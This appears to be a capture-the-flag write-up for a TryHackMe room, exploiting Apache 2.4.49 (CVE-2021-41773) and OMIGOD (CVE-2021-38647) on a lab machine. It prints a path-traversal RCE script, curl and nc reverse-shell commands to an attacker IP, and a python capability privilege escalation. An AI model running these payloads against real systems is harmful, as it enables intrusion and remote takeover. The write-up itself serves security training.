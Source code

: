 ```yaml
---
layout: post
title:  "Oh My WebServer"
categories: [tryhackme]
tags: [linux,omigod,container,capabilities,cve]
---
```


You can find this machine here : `https://tryhackme.com/room/ohmyweb`

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -Pn -sV ohmyweb.thm

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
```

### Directory Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$  dirb http://ohmyweb.thm/

URL_BASE: http://ohmyweb.thm/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://ohmyweb.thm/ ----
==> DIRECTORY: http://ohmyweb.thm/
+ http://ohmyweb.thm/cgi-bin/ (CODE:403|SIZE:199
```

### Wappalyzer - Port 80

![image]( /assets/img/ohmy/0.PNG)

### Searching


Search : `Apache httpd 2.4.49 exploit`
Result : `https://www.exploit-db.com/exploits/50383`

### Apache HTTP Server 2.4.49 - Path Traversal & RCE

CVE : `CVE-2021-41773`

```bash
#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done
```

```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ ./ohmyweb.sh targets.txt /bin/sh "whoami;id"
ohmyweb.thm
daemon
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

![image]( /assets/img/ohmy/1.PNG)

#### Reverse Shell Creation

Source : `https://www.youtube.com/watch?v=WSVcuV2Wc58`

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; echo "#!/bin/bash" > /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; echo "bash -i >& /dev/tcp/10.18.45.56/4444 0>&1" >> /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; cat /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; bash /tmp/alienum.sh'
```

![image]( /assets/img/ohmy/2.PNG)

#### Better Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo;fg
ENTER
export TERM=xterm
export HOME=/home
```

### LinPeas 

![image]( /assets/img/ohmy/4.PNG)

```bash
Files with capabilities (limited to 50):
/usr/bin/python3.7 = cap_setuid+ep
```

#### Linux Capabilities - Privileges Escalation 

```bash
daemon@4a70924bafa0:~$ getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep
daemon@4a70924bafa0:~$
```

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### User Owned - Proof

![image]( /assets/img/ohmy/5.gif)


### Found IP

![image]( /assets/img/ohmy/8.PNG)


### Host Discovery

- awk

![image]( /assets/img/ohmy/13.PNG)

- arp

```bash
root@4a70924bafa0:~# arp -a
ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:1e:60:bf:4a [ether] on eth0
```

![image]( /assets/img/ohmy/14.PNG)


### Port Scan

Binary here : `https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap`

```bash
curl 10.18.45.56/nmap -o nmap
```

![image]( /assets/img/ohmy/15.PNG)

- Starting the Scan

```bash
root@4a70924bafa0:~# ./nmap 172.17.0.1 -p- --min-rate 4000

PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
```

![image]( /assets/img/ohmy/16.PNG)

### Identify The Service (Port 5986)

![image]( /assets/img/ohmy/17.PNG)

![image]( /assets/img/ohmy/18.PNG)

### OMIGOD Unauthenticated RCE

- Source : `https://github.com/AlteredSecurity/CVE-2021-38647`
- Source : `https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure/`

```bash
wget https://raw.githubusercontent.com/AlteredSecurity/CVE-2021-38647/main/CVE-2021-38647.py
python3 -m http.server 80
```

```bash
curl 10.18.45.56/CVE-2021-38647.py -o exploit.py
```

![image]( /assets/img/ohmy/19.PNG)

```bash
python3 exploit.py -t 172.17.0.1 -p 5986 -c 'id'
```

![image]( /assets/img/ohmy/20.PNG)

### Reverse Shell - Root Owned

```bash
python3 exploit.py -t 172.17.0.1 -p 5986 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.18.45.56 6666 >/tmp/f'
```

![image]( /assets/img/ohmy/21.PNG)